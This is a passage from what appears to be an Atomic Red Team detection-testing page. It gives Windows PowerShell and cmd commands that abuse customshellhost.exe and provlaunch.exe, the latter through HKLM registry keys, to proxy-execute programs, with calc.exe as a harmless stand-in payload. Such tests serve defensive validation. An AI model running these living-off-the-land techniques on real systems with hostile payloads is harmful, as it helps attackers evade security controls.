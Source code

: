 #### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
if (-not (Test-Path #{dest_path})) {
New-Item -Path #{dest_path} -ItemType Directory
} else {
Write-Host "Directory #{dest_path} already exists." }
Copy-Item -Path "C:\windows\system32\customshellhost.exe" -Destination "#{dest_path}\customshellhost.exe" -Force
Copy-Item -Path "C:\windows\system32\calc.exe" -Destination "#{dest_path}\explorer.exe" -Force
#{dest_path}\customshellhost.exe
```

#### Cleanup Commands:

```powershell
Remove-Item -Path #{dest_path} -Recurse -Force
```

<br/>
<br/>

## Atomic Test #14 - Provlaunch.exe Executes Arbitrary Command via Registry Key

Provlaunch.exe executes a command defined in the Registry. This test will create the necessary registry keys and values, then run provlaunch.exe to execute an arbitrary command.

- https://twitter.com/0gtweet/status/1674399582162153472
- https://lolbas-project.github.io/lolbas/Binaries/Provlaunch/
  Registry keys are deleted after successful execution.

**Supported Platforms:** Windows

**auto_generated_guid:** ab76e34f-28bf-441f-a39c-8db4835b89cc

#### Attack Commands: Run with `command_prompt`!

```cmd
reg.exe add HKLM\SOFTWARE\Microsoft\Provisioning\Commands\LOLBin\dummy1 /v altitude /t REG_DWORD /d 0
reg add HKLM\SOFTWARE\Microsoft\Provisioning\Commands\LOLBin\dummy1\dummy2 /v Commandline /d calc.exe
c:\windows\system32\provlaunch.exe LOLBin
```

<br/>
